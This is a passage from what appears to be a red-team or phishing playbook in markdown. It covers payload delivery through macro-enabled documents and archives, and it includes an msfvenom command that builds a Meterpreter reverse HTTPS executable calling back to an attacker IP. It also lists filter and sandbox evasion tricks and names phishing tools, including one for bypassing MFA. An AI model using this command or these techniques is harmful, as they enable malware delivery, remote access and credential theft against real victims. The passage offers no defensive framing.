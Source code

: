 
---

### **6. Payload Delivery**

### **a. Malicious Attachments**

- File Types:
    - Macros-enabled Office documents (`.docm`, `.xlsm`).
    - Compressed files (`.zip`, `.rar`) with embedded payloads.
    - PDFs with malicious links.
- Tools:
    - **MSFVenom** to embed payloads in documents.
    
    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=attacker_ip LPORT=443 -f exe -o payload.exe
    
    ```
    
    - Use tools like **EvilClippy** for macro obfuscation.

### **b. URL-Based Payloads**

- Redirect targets to phishing sites or malicious payloads.
- Example phishing URL:
    
    ```
    <https://update.example-org.com/login>
    
    ```
    

---

### **7. Phishing Evasion Techniques**

1. **Domain Reputation**:
    - Register domains with clean histories.
    - Set up SPF/DKIM/DMARC records.
2. **Email Content**:
    - Avoid spammy phrases (e.g., "Free!", "Urgent").
    - Randomize content to bypass signature-based filters.
3. **Obfuscation**:
    - Encode links or attachments.
    - Use HTML entities to obscure text.
4. **Cloaking**:
    - Detect sandbox environments and avoid interacting with them.

---

### **8. Tools for Phishing**

| Tool | Purpose | Features |
| --- | --- | --- |
| **Gophish** | Phishing campaign management | Easy setup, reporting |
| **Social Engineering Toolkit (SET)** | Phishing and payload generation | Cloning, payload delivery |
| **Evilginx2** | Advanced phishing with MITM | Bypass MFA |
| **BlackEye** | Phishing page generator | Prebuilt templates |
| **PhishTool** | Phishing campaign tracking | Target engagement analytics |

---